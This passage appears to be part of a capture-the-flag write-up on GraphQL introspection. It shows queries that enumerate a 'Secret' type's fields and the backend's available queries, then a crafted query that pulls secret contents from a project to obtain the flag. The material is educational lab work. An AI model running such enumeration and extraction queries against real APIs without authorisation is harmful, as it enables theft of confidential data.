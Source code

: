 ### Step 2: Enumerate Fields

Now that we have identified a type, we can proceed to enumerate its fields using the following introspection query:

```graphql
{
  __type(name: "Secret") {
    name
    fields {
      name
    }
  }
}
```

The response reveals the details of the Secret user object, including its fields.

### Step 3: Enumerate Queries

Furthermore, we can enumerate all queries supported by the backend using the following introspection query:

```graphql
{
  __schema {
    queryType {
      fields {
        name
        description
      }
    }
  }
}
```

### Step 4: Extract the Flag

Now that we have all the information we need, we can craft our payload to get the flag:

```graphql
{
  project(id: "3") {
    id
    name
    isSecret
    secrets {
      id
      name
      content
    }
  }
}
```

